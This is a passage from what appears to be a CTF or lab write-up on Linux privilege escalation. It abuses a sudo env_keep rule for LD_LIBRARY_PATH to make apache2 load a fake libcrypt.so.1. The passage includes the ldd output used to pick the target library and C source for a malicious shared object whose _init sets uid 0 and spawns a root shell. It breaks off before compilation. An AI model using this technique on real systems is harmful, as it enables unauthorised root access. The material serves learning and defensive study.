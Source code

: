 This opens the door for privilege escalation by abusing the Apache configuration or environment variables, such as `LD_LIBRARY_PATH`, which is preserved due to the `env_keep+=LD_LIBRARY_PATH` setting. This variable can be used to load a malicious shared library, allowing us to execute arbitrary code as root when Apache starts.

[sudo-privilege-escalation-by-overriding-shared-library](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-privilege-escalation-by-overriding-shared-library/)

To exploit this, I used the following technique to create a malicious shared object that spawns a root shell:

#### 1. Identifying a Target Library with `ldd` 
To determine which shared libraries apache2 uses, I ran:

```bash
ldd /usr/sbin/apache2
```
```bash
	linux-vdso.so.1 =>  (0x00007ffff95eb000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f40b42a6000)
	libaprutil-1.so.0 => /usr/lib/x86_64-linux-gnu/libaprutil-1.so.0 (0x00007f40b407f000)
	libapr-1.so.0 => /usr/lib/x86_64-linux-gnu/libapr-1.so.0 (0x00007f40b3e4d000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f40b3c30000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f40b3866000)
	libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1 (0x00007f40b362e000)
	libexpat.so.1 => /lib/x86_64-linux-gnu/libexpat.so.1 (0x00007f40b3405000)
	libuuid.so.1 => /lib/x86_64-linux-gnu/libuuid.so.1 (0x00007f40b3200000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f40b2ffc000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f40b47bb000)

```
Among the output, I saw this line:

```bash
libcrypt.so.1 => /lib/x86_64-linux-gnu/libcrypt.so.1
```

This meant Apache was dynamically linking libcrypt.so.1, and if we place our own version of this library in a custom path, we can force Apache to load it — as root — using LD_LIBRARY_PATH.

#### 2. Creating the Malicious Shared Object

I wrote a malicious C file that mimics libcrypt.so.1 behavior but hijacks execution:

```bash
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init(void) {
    unsetenv("LD_LIBRARY_PATH");
    setuid(0);
    setgid(0);
    system("/bin/bash");
}

```
Saved it as `/tmp/exploit.c`, then compiled it:
